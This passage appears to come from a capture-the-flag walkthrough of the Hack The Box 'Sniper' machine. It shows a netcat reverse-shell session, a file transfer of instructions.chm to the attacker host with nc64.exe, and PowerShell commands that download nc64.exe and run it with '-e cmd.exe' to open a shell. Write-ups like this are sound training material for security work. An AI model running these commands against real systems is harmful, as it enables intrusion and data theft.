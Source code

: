 ```aaa
baud@kali:~/HTB/sniper$ nc -lvnp 9090
listening on [any] 9090 ...
connect to [10.10.14.144] from (UNKNOWN) [10.10.10.151] 49779
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Chris\Documents>dir /a
dir /a
 Volume in drive C has no label.
 Volume Serial Number is 6A2B-2640

 Directory of C:\Users\Chris\Documents

02/28/2020  02:53 PM    <DIR>          .
02/28/2020  02:53 PM    <DIR>          ..
04/11/2019  06:04 AM               402 desktop.ini
04/11/2019  06:04 AM    <JUNCTION>     My Music [C:\Users\Chris\Music]
04/11/2019  06:04 AM    <JUNCTION>     My Pictures [C:\Users\Chris\Pictures]
04/11/2019  06:04 AM    <JUNCTION>     My Videos [C:\Users\Chris\Videos]
02/28/2020  02:53 PM            45,272 nc64.exe
               2 File(s)         45,674 bytes
               5 Dir(s)  17,932,124,160 bytes free

C:\Users\Chris\Documents>
```

While the user flag is in Chris' desktop, his downloads folder contains an interesting instructions.chm file:

```aaa
C:\Users\Chris>dir /a downloads
dir /a downloads
 Volume in drive C has no label.
 Volume Serial Number is 6A2B-2640

 Directory of C:\Users\Chris\downloads

04/11/2019  07:36 AM    <DIR>          .
04/11/2019  07:36 AM    <DIR>          ..
04/11/2019  06:04 AM               282 desktop.ini
04/11/2019  07:36 AM            10,462 instructions.chm
               2 File(s)         10,744 bytes
               2 Dir(s)  17,932,124,160 bytes free

C:\Users\Chris>
```

CHM files are typically shipped witht a program, containing its official documentation. The file can be transfered to us for analysis via nc64:

```aaa
C:\Users\Chris\Downloads>..\Documents\nc64.exe -w 3 10.10.14.144 9191 < instructions.chm
```


[localhost]: PS C:\Users\Chris\Documents>
[localhost]: PS C:\Users\Chris\Documents> Invoke-Command -ScriptBlock { IWR http://10.10.14.144/nc64.exe -outfile C:\Users\Chris\Documents\nc64.exe }
[localhost]: PS C:\Users\Chris\Documents> Invoke-Command -ScriptBlock { C:\Users\Chris\Documents\nc64.exe -e cmd.exe 10.10.14.144 9090 }